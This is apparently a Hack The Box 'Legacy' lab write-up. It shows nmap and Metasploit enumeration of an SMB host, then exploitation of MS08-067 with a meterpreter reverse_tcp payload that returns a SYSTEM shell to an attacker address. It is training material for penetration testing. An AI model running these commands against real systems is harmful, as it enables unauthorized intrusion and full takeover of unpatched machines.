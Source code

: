 # Legacy

## 1. Overview

### 1.1. Attacks

* SMB

### 1.2. Tools used

**Enumeration** &rarr; `nmap`, `msf`.

**Exploitation** &rarr; `msf`.

## 2. Walkthrough

### 2.1. Enumeration

#### 2.1.1. nmap

##### 2.1.1.1. Ports
![Legacy nmap ports](_v_images/20201003194612787_27957.png)

Both are SMB related (file shares).

##### 2.1.1.2. Host Details

![Legacy Host Details](_v_images/20201003195550666_18455.png)
![Legacy Host Script Results](_v_images/20201003195833909_14253.png)

* **Finding:**  Message_Signing &rarr; disabled

#### 2.1.2. Metasploit

```msf
msf5 > use auxiliary/scanner/smb/smb_version
msf5 auxiliary(scanner/smb/smb_version) > set rhosts 10.10.10.4
rhosts => 10.10.10.4
msf5 auxiliary(scanner/smb/smb_version) > run

[+] 10.10.10.4:445        - Host is running Windows XP SP3 (language:English) (name:LEGACY) (workgroup:HTB ) (signatures:optional)
[*] 10.10.10.4:445        - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

* **OS** &rarr; Windows XP SP3

### 2.2. Exploitation

#### 2.2.1. Sources

[[Rapid7] MS08-067 Microsoft Server Service Relative Path Stack Corruption ](https://www.rapid7.com/db/modules/exploit/windows/smb/ms08_067_netapi)

#### 2.2.2. Metasploit

```msf
msf5 > use exploit/windows/smb/ms08_067_netapi
[*] Using configured payload windows/meterpreter/reverse_tcp
msf5 exploit(windows/smb/ms08_067_netapi) > set rhosts 10.10.10.4
rhosts => 10.10.10.4
msf5 exploit(windows/smb/ms08_067_netapi) > set LHOST 10.10.14.7
LHOST => 10.10.14.7
msf5 exploit(windows/smb/ms08_067_netapi) > run
```

```sh
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > shell
```
